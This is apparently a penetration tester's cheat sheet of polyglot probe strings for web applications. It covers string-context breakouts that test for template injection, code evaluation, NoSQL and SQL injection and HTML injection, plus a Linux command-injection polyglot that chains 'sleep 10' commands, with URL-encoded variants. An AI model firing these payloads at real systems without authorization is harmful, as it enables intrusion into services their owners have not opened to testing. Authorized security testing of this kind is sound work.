 # Errors based/behaviour inferer

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `Surrounding string:'` then output should be: `hello@(\${{[%<%"."> (concats ')` && `Surrounding string:"` then output should be: `hello'.'@(${{[%<%> concats(")`. It will also generate errors for the aforementioned contexts and attempt an html tag injection.

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `Sourrounding string:'` then output should be: `Generic Error Message (Fails to concat)` && `Surrounding string: "` then output should be `hello@(${{[%<%'**'> (Concats)`. It will also generate errors for the aforementioned contexts and attempt an html tag injection.

###  Urlencoded Version

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## OSCMDi context aware for Linux

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``

### Urlencoded Version

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

Works in raw format, between `'` or `"`.
